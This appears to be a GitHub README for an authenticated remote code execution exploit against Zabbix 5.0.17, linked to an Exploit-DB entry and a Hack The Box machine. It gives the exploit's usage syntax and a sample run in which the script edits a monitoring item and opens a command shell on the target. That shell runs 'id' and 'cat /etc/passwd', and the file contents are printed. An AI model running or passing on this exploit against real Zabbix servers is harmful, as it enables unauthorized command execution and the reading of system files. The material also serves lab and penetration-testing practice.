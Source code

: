 # Zabbix 5.0.17 -  Remote Code Execution (Authenticated) 
Zabbix is an open-source software tool to monitor IT infrastructure such as networks, servers, virtual machines, and cloud services. Zabbix collects and displays basic metrics. 

## Exploit Infos:
Finder: Hussien Misbah <br>
Date: 09.03.2022 <br>
Affected Version: 5.0.17 <br>
Build Time: 18.10.2021 <br>
Risk: High <br>

### About exploit :
- This exploit is tested against Zabbix 5.0.17 only
- The account used is the Administrator account 

---

# Proof of Concept 
If you have problems with the exploit script, try the [Step by Step PoC](https://github.com/InfoSec-Crow/HackingStuff/blob/main/Exploits/Python/Zabbix_5.0.17/StepByStep.md).
```
$ ./exploit.py
Usage: ./expoit.py <target url> <username> <password>
Example: ./exploit.py http://example.com Administrator Password123

$ ./exploit.py http://127.0.0.1 Administrator SavePassword321
[*] Get hostId: 10084
[*] Get sid: 425f48afe7a6c98f
[*] Edit item successfully
cmd> id
uid=110(zabbix) gid=118(zabbix) groups=118(zabbix)

cmd> cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
<SNIP>
Debian-snmp:x:111:119::/var/lib/snmp:/bin/false
mysql:x:112:120:MySQL Server,,,:/nonexistent:/bin/false

cmd> exit
Bye

```

---

### Links:
Hussien Misbah:
* https://github.com/HussienMisbah/tools/tree/master/Zabbix_exploit
* https://www.exploit-db.com/exploits/50816

Hack The Box:
* https://app.hackthebox.com/machines/Shibboleth
* https://0xdf.gitlab.io/2022/04/02/htb-shibboleth.html
